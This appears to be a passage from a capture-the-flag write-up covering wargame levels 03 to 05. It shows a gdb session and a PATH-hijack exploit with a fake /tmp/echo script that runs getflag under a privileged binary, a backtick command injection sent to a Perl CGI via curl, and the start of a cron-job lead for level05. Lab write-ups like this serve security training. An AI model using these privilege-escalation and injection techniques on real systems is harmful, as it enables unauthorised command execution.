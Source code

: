 ```
$ gdb ./level03
(gdb) break main
(gdb) run
(gdb) disassemble
```

From the disassembled code, an important snippet appears:
```
...
   0x080484f7 <+83>:    movl   $0x80485e0,(%esp)
   0x080484fe <+90>:    call   0x80483b0 <system@plt>
   0x08048503 <+95>:    leave  
   0x08048504 <+96>:    ret
```

Investigating further into what the address 0x80485e0 holds:
```
(gdb) x/s 0x80485e0
0x80485e0:       "/usr/bin/env echo Exploit me"
```
It returns: "/usr/bin/env echo Exploit me".

This indicates that the executable runs the command echo Exploit me using the env command.

Based on the above observation, there's a vulnerability. 
We can exploit the behavior by making the env command point to a malicious echo executable, 
allowing us to execute arbitrary code.

To exploit this:

Create a fake echo script in the /tmp directory and modify the PATH environment variable to
prioritize our malicious echo which will actually execute getflag with the rights from flag03, and then run level03:

```shell
echo '#!/bin/sh' > /tmp/echo
echo 'getflag' >> /tmp/echo
chmod +x /tmp/echo
PATH="/tmp:$PATH" ./level03
```

## level04

There is a Perl CGI running on port 4747. It displays the query parameter `x`. Since Perl calls shell code with our string, we can inject a `` `getflag` `` in the command. We make sure getflag is not executed on our side by adding single quotes around the `curl` argument.

``curl 'localhost:4747?x=`getflag`'``

This will send a request to the Perl CGI application, instructing it to execute the getflag command on its side.


## level05

There is nothing in the home folder. Luckily, during the exploration of the VM during the first exercise, we found the folder `/var/mail` which contains what looks like a cron job for user `flag05`: `*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`.
